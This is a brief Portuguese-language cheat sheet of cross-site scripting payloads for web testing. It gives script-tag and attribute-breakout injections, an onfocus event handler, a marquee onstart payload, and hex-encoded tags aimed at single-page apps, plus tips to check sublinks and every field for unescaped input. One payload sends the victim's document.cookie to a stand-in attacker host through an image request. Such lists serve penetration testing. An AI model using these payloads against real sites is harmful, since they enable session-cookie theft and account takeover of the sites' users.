 #### Uso geral
<script>alert(1)</script>

#### Caso esteja dentro de caracteres especiais
"><script>alert(1)</script><"

#### Sem javascript puro
" onfocus="alert(1)"

#### Sequesto por requisição
<script>new Image().src = "http://attacker.example.com/?" + document.cookie</script>

#### Dom Based
<marquee onstart="alert(1)">XSS</marquee>

#### Single App Pages injection via hexadecimal/ASCII
##### Obs: trocar < e > por valores ASCII
\x3cscript\x3ealert(1)\x3c/script\x3e

#### Dicas
- verificar sublinks, as vezes o valor não é escapado dentro deles
- verificar todos os campos, nem sempre todos os campos são escapados corretamente